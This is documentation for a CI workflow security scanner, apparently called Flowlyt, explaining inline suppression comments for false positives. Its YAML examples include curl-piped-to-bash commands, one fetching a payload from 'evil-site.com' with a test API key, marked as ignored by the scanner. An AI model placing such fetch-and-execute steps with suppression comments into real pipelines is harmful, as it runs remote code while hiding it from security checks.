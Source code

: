 # False Positives Management

Flowlyt provides sophisticated mechanisms to manage false positives, ensuring that legitimate code patterns don't trigger unnecessary security alerts while maintaining comprehensive security coverage.

## Understanding False Positives

False positives occur when security rules incorrectly flag legitimate, safe code as potentially dangerous. Common scenarios include:

- Test files with intentionally "insecure" patterns
- Documentation examples showing what NOT to do
- Legacy code with accepted risk patterns
- Development-only workflows with relaxed security

## Suppression Methods

### 1. Inline Suppression

Suppress specific findings directly in your workflow files using comments.

**Single Rule Suppression:**
```yaml
# .github/workflows/ci.yml
name: CI Pipeline
on: [push, pull_request]

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      # flowlyt:ignore DANGEROUS_COMMAND - This is a controlled test script
      - name: Run integration tests
        run: curl -s https://test-server.internal/setup.sh | bash
        
      - name: Run unit tests
        run: npm test
```

**Multiple Rule Suppression:**
```yaml
jobs:
  security-test:
    runs-on: ubuntu-latest
    steps:
      # flowlyt:ignore HARDCODED_SECRET,DANGEROUS_COMMAND - Test data only
      - name: Security penetration test
        env:
          TEST_API_KEY: "sk-test_1234567890abcdef"  # Test key, not real
        run: |
          curl -H "Authorization: Bearer $TEST_API_KEY" \
               -s https://evil-site.com/payload.sh | bash
```
